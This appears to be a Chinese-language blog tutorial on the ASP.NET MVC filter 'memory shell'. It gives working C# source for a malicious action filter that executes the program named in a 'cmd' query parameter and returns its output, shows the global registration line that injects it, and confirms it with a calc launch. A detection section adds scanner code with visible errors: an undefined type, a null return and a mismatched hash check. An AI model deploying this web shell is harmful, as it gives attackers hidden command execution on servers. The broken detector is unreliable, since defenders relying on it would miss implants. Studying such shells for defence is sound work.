



概述：ASP.NET MVC Filter 型内存马 说明及实例
相关关键字
可根据相关关键字去拓展阅读
ASP.Net MVC Filter 型内存马
相关文章
MVC Filter 指南
内存马相关
- C# ASP.NET MVC中Filter过滤器的使用 通过注册到Global.asax注册为全局 过滤所有action - sunny123456 - 博客园](https://www.cnblogs.com/sunny3158/p/11683554.html)
- wechat/articles/[Security丨Art]-2023-11-11-ASP.NET 内存马与魔改蚁剑内存马回显.md at 5aa2a3014901e6d9518db31da498ac7fd9105e6a · izj007/wechat
- ASP.NET下的内存马(一)：filter内存马 - 阅力值 ⭐⭐⭐⭐
- ASP.NET 内存马与魔改蚁剑内存马回显 | 长亭百川云 - 阅力值 ⭐⭐⭐⭐
ASP.Net MVC Filter 型内存马的一大特性就是必须依赖于 system.web.mvc.dll 这个东西，也就是只能在 .net mvc 下使用，执行权限为IIS用户权限。
什么是 ASP.Net MVC Filter 型内存马
- ASP.NET MVC（Model - View - Controller）是一种用于构建 Web 应用程序的框架。Filter（过滤器）是这个框架中的一个重要组件，它可以在请求处理管道的不同阶段对请求进行预处理或后处理。
- ASP.NET MVC Filter 型内存马是一种恶意利用技术，攻击者通过在ASP.NET MVC 应用程序的内存中注入恶意的过滤器，来篡改或控制应用程序的请求处理流程。这种内存马通常不会在磁盘文件中留下明显的痕迹，使得检测和清除更加困难。
Filter 的类型及工作原理
- 授权过滤器（Authorization Filters）
- 这是最先执行的过滤器类型。它们用于确定用户是否有权限访问某个资源或执行某个操作。例如，在一个用户管理系统中，授权过滤器可以检查用户是否已经登录，或者是否具有特定的角色权限来访问某个管理页面。
- 典型的实现接口是
IAuthorizationFilter。当一个请求到达时，授权过滤器会检查请求中的身份验证信息和授权规则，如果用户没有权限，它可以直接阻止请求进一步处理，并返回一个未经授权的响应。
- 操作过滤器（Action Filters）
- 操作过滤器围绕着控制器的操作方法执行。它们可以在操作方法执行之前和之后执行代码。在操作方法执行之前，它们可以用于修改传入的参数，或者进行一些初始化工作。在操作方法执行之后，它们可以用于处理返回结果，比如格式化数据或者记录操作日志。
- 实现接口为
IActionFilter。例如，一个操作过滤器可以在操作方法执行之前记录传入的参数值，在操作方法执行之后记录返回的结果值，这样就可以方便地进行调试和监控应用程序的行为。
- 结果过滤器（Result Filters）
- 结果过滤器在操作结果（如视图渲染、JSON 数据返回等）执行过程中进行处理。它们可以修改操作结果，例如修改视图的布局或者对返回的 JSON 数据进行加密。
- 接口是
IResultFilter。比如，在一个返回 JSON 数据的 Web API 中，结果过滤器可以对返回的 JSON 数据进行额外的字段添加或者加密处理，然后再将其发送给客户端。
- 异常过滤器（Exception Filters）
- 异常过滤器用于处理在请求处理过程中抛出的异常。它们可以捕获异常，并返回一个友好的错误页面或者错误消息给客户端，而不是让应用程序直接崩溃。
- 实现接口为
IExceptionFilter。例如，当数据库查询出现异常时，异常过滤器可以捕获这个异常，记录详细的错误信息，然后返回一个自定义的 “服务器内部错误” 页面给用户。
如何创建 Filter 型内存马
创建恶意过滤器类
**创建：**首先，需要创建一个实现了相应过滤器接口（如 IActionFilter ） 的类。
csharp
using System;
using System.Collections.Generic;
using System.Diagnostics;
using System.Linq;
using System.Text;
using System.Web;
using System.Web.Mvc;
namespace ContosoSite.Filter
{
public class MailciousActionFilter : IActionFilter
{
public void OnActionExecuting(ActionExecutingContext filterContext)
{
string cmd = filterContext.HttpContext.Request.QueryString["cmd"];
if (cmd != null)
{
HttpResponseBase response = filterContext.HttpContext.Response;
Process p = new Process();
p.StartInfo.FileName = cmd;
p.StartInfo.UseShellExecute = false;
p.StartInfo.RedirectStandardError = true;
p.StartInfo.RedirectStandardOutput = true;
p.Start();
byte[] data = Encoding.UTF8.GetBytes(p.StandardError.ReadToEnd() + p.StandardOutput.ReadToEnd());
response.Write(System.Text.Encoding.Default.GetString(data));
}
Console.WriteLine("auth filter inject");
}
public void OnActionExecuted(ActionExecutedContext filterContext)
{
// 在这里可以篡改返回结果
if (filterContext.Result is ViewResult viewResult)
{
// 例如，在视图数据中添加恶意数据
viewResult.ViewData["maliciousData"] = "This is malicious data";
}
}
}
}**注册：**创建完成后，则需要将恶意过滤器注入到应用程序的请求处理管道中
攻击者可以利用应用程序中的漏洞（如代码注入漏洞）来将恶意过滤器添加到过滤器集合中。在ASP.NET MVC 中，过滤器可以通过GlobalFilters.Filters属性进行全局添加，或者在控制器或操作方法级别通过特性（Attribute）进行添加。如下所示是一种全局注入方式：
csharp
GlobalFilters.Filters.Add(new MaliciousActionFilter());注册

验证
text
http://win-1nmhtjkvjbo:8090?cmd=calc
可以看到页面访问成功。说明 Filter 已经生效了。查看进程也可以看到计算机已经启动。

检测与防范 Filter 型内存马
检测方法
- 内存扫描：可以使用内存分析工具来扫描应用程序的内存空间，查找可疑的过滤器类实例。例如，通过查找实现了过滤器接口的未知类，或者查找在运行时动态创建和添加的过滤器。
- 请求监控与日志分析：对应用程序的请求进行详细的监控和日志记录。分析请求处理过程中的异常行为，如参数被篡改或者返回结果被修改的情况。如果发现某些请求的处理不符合正常的业务逻辑，可能暗示存在内存马。
防范措施
- 输入验证与净化：在控制器的操作方法中，对所有的输入参数进行严格的验证和净化，避免过滤器（无论是恶意还是无意的）对参数进行非法篡改。
- 权限控制：确保只有授权的代码才能添加或修改过滤器。对
GlobalFilters.Filters的访问应该进行严格的权限控制，防止未经授权的代码进行过滤器的注入。 - 安全编码实践：遵循安全编码原则，避免出现代码注入等漏洞，这样可以从源头上减少内存马被注入的风险。例如，在使用用户输入来动态创建对象或者调用方法时，要进行充分的安全检查。
检测实例
相关参考
检测原理
主要是通过 global.asax 中全局注册的 GlobalFilters 来获取当前注册的模块都有哪些。
代码
以下代码为我个人在上述参考基础上简化后的代码，仅自测使用。
主要两个接口，一个是获取当前注册的所有过滤器的接口 GetLoadedFilters，一个是根据程序集的 Type 和 HashCode 卸载程序集的接口 DeleteFilter。
csharp
using System;
using System.Collections.Generic;
using System.Linq;
using System.Reflection;
using System.Text;
using System.Threading.Tasks;
using System.Web.Mvc;
using System.Web.Script.Serialization;
using System.Xml.Linq;
namespace FilterScann
{
public class FilterScanerType
{
public string Filter_Type;
public string Filter_Order;
public string Filter_Scope;
public string Filter_CodeBase;
public string Filter_HashCode;
}
public static class FilterScanner
{
public static string GetLoadedFilters()
{
try
{
string strFilters = null;
List<FilterScanerType> filters = new List<FilterScanerType>();
GlobalFilterCollection globalFilterCollection = GlobalFilters.Filters;
foreach (Filter filter in globalFilterCollection)
{
DnrspFilter dnrspFilter = new FilterScanerType();
dnrspFilter.Filter_Type = filter.Instance.GetType().ToString();
dnrspFilter.Filter_Order = filter.Order.ToString();
dnrspFilter.Filter_Scope = filter.Scope.ToString();
dnrspFilter.Filter_CodeBase = filter.Instance.GetType().Assembly.CodeBase.ToString();
dnrspFilter.Filter_HashCode = filter.Instance.GetType().Assembly.GetHashCode().ToString();
filters.Add(dnrspFilter);
}
JavaScriptSerializer serializer = new JavaScriptSerializer();
string ReportData = serializer.Serialize(filters);
return strFilters;
}
catch (Exception e)
{
return e.ToString();
}
}
public static bool DeleteFilter(string filterType, string hashcode)
{
try
{
GlobalFilterCollection globalFilterCollection = GlobalFilters.Filters;
foreach (Filter filter in globalFilterCollection)
{
string strType = filter.Instance.GetType().ToString();
string strHashCode = filter.Instance.GetType().Assembly.GetHashCode().ToString().GetHashCode().ToString();
if(strType.Equals(filterType) && hashcode.Equals(strHashCode))
{
FieldInfo filtersField = globalFilterCollection.GetType().GetField("_filters",
System.Reflection.BindingFlags.Instance | System.Reflection.BindingFlags.NonPublic);
List<Filter> filtersList = (List<Filter>)filtersField.GetValue(globalFilterCollection);
bool flag = filtersList.Remove(filter);
if (flag)
{
return true;
}
else
{
return false;
}
}
}
return false;
}
catch (Exception e)
{
return false;
}
}
}
}